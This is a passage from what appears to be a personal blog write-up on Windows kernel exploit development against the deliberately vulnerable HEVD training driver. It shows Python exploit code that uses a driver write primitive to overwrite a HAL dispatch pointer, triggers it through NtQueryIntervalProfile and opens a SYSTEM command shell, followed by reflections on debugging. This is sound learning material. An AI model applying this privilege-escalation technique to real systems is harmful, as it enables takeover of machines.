 ```python
    buf = struct.pack("<Q", new_buf_ptr)
    buf += struct.pack("<Q", target_hal)
    buf_length = len(buf)
    
    result = kernel32.DeviceIoControl(
        hevd,
        0x22200b,
        buf,
        buf_length,
        None,
        0,
        byref(c_ulong()),
        None
    )

    if result != 0:
        print("[*] Buffer sent to driver successfully.")
    else:
        print("[!] Payload failed. Last error: " + str(GetLastError()))

def exploit():
    
    print("[*] Triggering with NtQueryIntervalProfile...")
    ntdll.NtQueryIntervalProfile(0x2408, byref(c_ulong()))

    print("[*] Opening system shell...")
    Popen("start cmd", shell=True)


        
img_name, kernel_base = base()
target_hal = hal_calc(img_name, kernel_base)
send_buf(target_hal)
exploit()
```

If we run our updated shellcode exploit script, we get our coveted `nt authority/system` shell!

![](/assets/images/AWE/wedidit.PNG)

## Conclusion
We learned a really useful WinDBG feature on this one, the access breakpoint. I feel like this is going to come in really handy going forward. It was fun troubleshooting this issue, discovering that with my script there was an unavoidable overwrite, and then taking the overwite and progressing anyways. This is the type of thing that really builds skills in my opinion. We were forced to go off-plan and improvise and get into the debugger to figure out what's going on. Onto the next exploit! Thanks again to everyone that's published blogs on Windows exploit development, truly it's been so appreciated. 
